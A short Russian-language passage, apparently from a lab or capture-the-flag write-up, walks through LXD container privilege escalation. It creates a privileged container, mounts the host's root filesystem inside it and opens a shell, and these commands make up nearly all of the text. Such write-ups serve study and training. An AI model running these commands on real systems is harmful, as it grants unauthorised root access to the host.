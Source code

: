 > lxc init goodpc privesc -c security.privileged=true

Что? Ошибка? нет пула памяти? гуглим.

> lxd init

далее по принципу установки да-да-да, запускай

повторяем…. вышло…

создадим виртуальный диск в контейнере

> lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true

готово, запускаемся

> lxc start privesc

> lxc exec privesc /bin/sh